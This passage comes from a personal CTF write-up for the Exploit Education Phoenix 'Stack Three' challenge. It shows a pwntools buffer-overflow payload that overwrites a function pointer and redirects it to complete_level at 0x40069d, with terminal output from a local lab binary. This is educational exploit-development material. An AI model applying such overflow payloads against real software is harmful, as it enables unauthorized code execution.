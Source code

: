 Both methods provided us with the same information: the **complete_level()** function starts at **0x40069d.**
{: style="text-align: justify;"}

This exploit-crafting process will be quick because *Stack Three* is basically identical to the *Stack Zero* challenge. [Those unfamiliar with [my Stack Zero challenge solution](https://secnate.github.io/ctf/phoenix/phoenix-stack-zero/) might want to review it for a detailed historical context of this process]
{: style="text-align: justify;"}

Time to craft the exploit. The payload in the *exploit.py* file’s line 14 was 
{: style="text-align: justify;"}
```
payload = cyclic(64) + p64(0xdeadbeef)
```

It was passed into the execution of the stack-three program in the *exploit.py* file’s line 24 with
{: style="text-align: justify;"}
```
p.sendline(payload)
```

O.K. I created the basic exploit and passed it in through the command-line input. The next step was to test whether the **0xdeadbeef** completely overwrote the **fp** variable with the conveniently-included printout:
{: style="text-align: justify;"}
```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-three$ ./exploit.py
Launching The Stack Three Exploit!
[!] Could not find executable 'stack-three' in $PATH, using '/opt/phoenix/amd64/stack-three' instead
[+] Starting local process '/opt/phoenix/amd64/stack-three': pid 6348
[*] Switching to interactive mode
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0xdeadbeef
[*] Got EOF while reading in interactive
$ 
```

It did! The final step was to replace the payload’s 0xdeadbeef value with **0x40069d**:
{: style="text-align: justify;"}
```
nathan@nathan-VirtualBox:~/Desktop/Exploit-Education-CTFs/Phoenix/stack-three$ ./exploit.py
Launching The Stack Three Exploit!
[!] Could not find executable 'stack-three' in $PATH, using '/opt/phoenix/amd64/stack-three' instead
[+] Starting local process '/opt/phoenix/amd64/stack-three': pid 8404
[*] Switching to interactive mode
[*] Process '/opt/phoenix/amd64/stack-three' stopped with exit code 0 (pid 8404)
Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
[*] Got EOF while reading in interactive
$
```


[^1]: [_LibreTexts'_ book _"C++ Data Structures"_, Chapter 2.2](https://eng.libretexts.org/Courses/Delta_College/C_-_Data_Structures/02%3A_C_Pointers/2.02%3A_How_to_use_a_pointer)
[^2]: [Daniel López Azaña's blog post on the _Differences between ASLR, KASLR, and KARL_](https://www.daniloaz.com/en/differences-between-aslr-kaslr-and-karl/)
[^3]: [NSA Releases Guidance on How to Protect Against Software Memory Safety Issues](https://www.nsa.gov/Press-Room/News-Highlights/Article/Article/3215760/nsa-releases-guidance-on-how-to-protect-against-software-memory-safety-issues/)